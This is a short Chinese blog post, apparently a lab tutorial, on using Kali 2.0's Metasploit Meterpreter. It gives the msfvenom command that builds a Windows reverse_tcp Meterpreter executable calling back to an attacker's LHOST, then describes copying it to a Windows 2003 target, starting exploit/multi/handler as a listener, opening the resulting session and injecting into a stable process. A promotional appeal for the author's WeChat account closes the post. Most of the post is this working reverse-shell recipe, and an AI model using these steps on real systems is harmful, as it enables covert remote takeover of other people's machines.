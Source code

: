 ```yaml
---
layout: post
category: binghe-code-hack
title: Kali2.0 Meterpreter 运用
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Kali2.0 Meterpreter 运用
lock: need
---
```


# Kali2.0 Meterpreter 运用

初试牛刀

（1）生产EXE  就用meterpreter (shell 一个含义)  (KALI2.0以前版本 为 msfpayload )2.0后 新命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXXX LPORT=XXXX -f exe  > 1234.exe
```

![img](https://img-blog.csdnimg.cn/20181125231446382.png)

（2）默认生成地址是 ROOT 查看 后 直接经 物理机 复制进入目标机 WIN2003 

（3）打开之前，监听机 先打开 监听

```
use  exlpoit/multi/handler 
```

![img](https://img-blog.csdnimg.cn/20181125231535591.png)

（4）目标机 打开 EXE 后 发生回话   用 sessions -v 查看

![img](https://img-blog.csdnimg.cn/20181125231609349.png)

（5）选择要的回话窗口  session -i 1 成功进入 meterpreter 

输入 ？  进行试验 ，选定稳定进程注入。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)